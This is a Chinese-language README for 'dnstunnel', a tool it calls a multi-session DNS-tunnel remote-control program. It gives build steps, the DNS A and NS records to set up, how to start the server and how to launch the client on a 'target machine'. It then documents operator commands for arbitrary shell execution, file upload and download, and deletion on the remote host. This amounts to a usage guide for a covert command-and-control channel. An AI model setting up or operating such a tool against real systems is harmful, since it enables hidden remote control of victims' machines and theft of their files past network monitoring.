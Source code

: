 # dnstunnel
一款多会话的二进制DNS隧道远控
# 编译
```
./build.sh
```
# 域名配置
使用者需要在域名服务做如下配置(以gandi.net为例):  
添加一条A记录: 
```
ns1 10800 IN A 55.55.55.55
```
再添加一条NS记录: 
```
1 1800 IN NS ns1.test.website.
```
# 使用说明
按照以上添加后, 在55.55.55.55上启动NDNS_server
```
./NDNS_server
```
在目标机带参数启动NDNS_client
```
./NDNS_client .1.test.website
```
# 用户界面
支持如下命令
```
session <list|clientid>
getuid
upload <local> <remote>
download <remote> <local>
bash <shell cmd>
move <src> <dst>
mkdir <dir>
rmdir <dir>
rename <old> <new>
list
rm <file>
cd <dir>
pwd
hostip
Session[29727]>>
```
## session
```
session list
```
列出当前所有会话
```
session clientid
```
切换到对应会话  
## getuid  
```
getuid
```
获取当前远程会话的用户ID  
## upload
```
upload aaa bbb
```
将本地文件aaa上传到远程会话机器bbb，限制文件aaa压缩后要小于430字节  
## download
```
download aaa bbb
```
将远程文件aaa下载到本地为bbb，下载速率大概20-30字节/秒，所以千万不要下载大文件，否则耗时超级长  
## bash
```
bash which python
```
可执行任意shell命令，注意不要执行需要交互的命令  
## move
```
move <src> <dst>
```
和mv功能一致，暂未实现，可能用处很少  
## mkdir
```
mkdir aaa
```
在远端创建文件夹aaa  
## rmdir  
删除远端文件夹  
## rename  
重命令文件  
## list
```
list
```
在远端程序当前目录执行ls -lrt并返回结果  
## rm  
删除远端文件  
##cd  
切换远端程序当前目录  
##pwd  
获取远端程序当前目录  
##hostip  
获取远端机器的出口ip和主机名
